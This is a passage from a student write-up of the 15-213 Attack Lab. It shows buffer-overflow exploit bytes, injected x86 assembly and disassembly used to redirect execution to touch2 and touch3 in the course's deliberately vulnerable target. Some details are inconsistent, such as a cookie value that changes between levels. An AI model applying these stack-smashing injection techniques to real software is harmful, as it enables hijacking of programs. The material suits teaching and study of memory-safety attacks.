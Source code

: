 ```Shell
attack_lab/part1# vim solution2.hex
attack_lab/part1# ./hex2raw -i solution2.hex > solution2.raw
attack_lab/part1# ./ctarget -q < solution2.raw
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00
attack_lab/part1#
```

## Level 3

In `Level2`, we inject a piece of code in `%rsp` of `getbuf`, and redirect code to it by rewritting the ret address `%rbp`.

The difference with `Level3` is that Instead of passing in a variable, we should pass in a pointer to the cookie string. And since it calls `hexmatch` in `touch3` after the stack of `getbuf` is released, data rewitten in `getbuf` might be rewitten again by `hexmatch`. So, we choose  to place the buff of `coockie` in `test`.

First, we get that `cookie=0x45374fee` in string is `34 35 33 37 34 66 65 65` and rewrite it to `$0x5561dca8` in `test` during  the code injection.

Secondly, we get that the address of `touch3` is `0x00000000004018fa`.

```Assembly
# solution3.s
movq    $0x5561dca8, %rdi    # 把指向cookie的指针设置为第一个参数
pushq   $0x4018fa            # 将touch3的首地址压栈
ret                          # 跳转到touch3
```

```Shell
attack_lab/part1# vim solution3.s
attack_lab/part1# gcc -c solution3.s
attack_lab/part1# objdump -d solution3.o

solution3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq
attack_lab/part1#
```
